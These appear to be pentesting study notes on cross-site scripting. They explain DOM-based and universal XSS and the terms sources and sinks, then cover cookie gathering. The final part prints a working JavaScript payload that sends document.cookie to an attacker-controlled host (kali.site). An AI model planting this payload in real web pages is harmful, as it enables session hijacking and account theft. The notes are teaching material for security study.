 ### DOM XSS
Its a form of XSS that exists only within client-side code (typically JavaScript)

It does not reach server-side code. This is the reason why this flaw is also known as **Type-0** or **Local XSS**.

Information we can get are the URL, history, cookies, local storage etc.

There is two keywords: *sources* and **sinks**.

> In software, data flow can be thought as in water flow in aqueduct systems which starts from natural sources and ends to sinks. In software security the sources are to be considered starting points where untrusted input data is taken by application.

> Sinks are meant to be the points in the flow where data depending from sources is used in a potentially dangerous way resulting in loss of Confidentiality, Integrity or Availability.

→ Moreover DOM XSS: https://code.google.com/p/domxsswiki/

### Universal XSS
- Aka UXSS
- it dows not leverage the flaws against web applications but the browser, its extensions or its plugins.


## XSS Attacks

### Cookie Gathering
- The main techniques to keep track of user session is by using HTTP cookies.
- Sometimes these cookies contain information such as username, password, and other application related information.

3 steps:
```php
- Script Injection
- Cookie Recording
- Logging
```

### Script Injection 
Inject the malicious payload that will send the stolen cookies to our controlled CGI
Accessing Cookies:
```php
var accessibleCookies = document.cookie;
```

AccessibleCookies is a string containing a semicolon-separated list of cookies in key=value pairs. The result contains cookies without the HTTPOnly attribute. On HTTP connections, only cookies without the SECURE attribute set are contained in the result.

Stealing Cookies
To steal cookies, we need to send the document.cookie content to something we can control, using a simple script like:
```php
new Image().src="http://kali.site/C.php?cc="+escape(document.cookie);
```
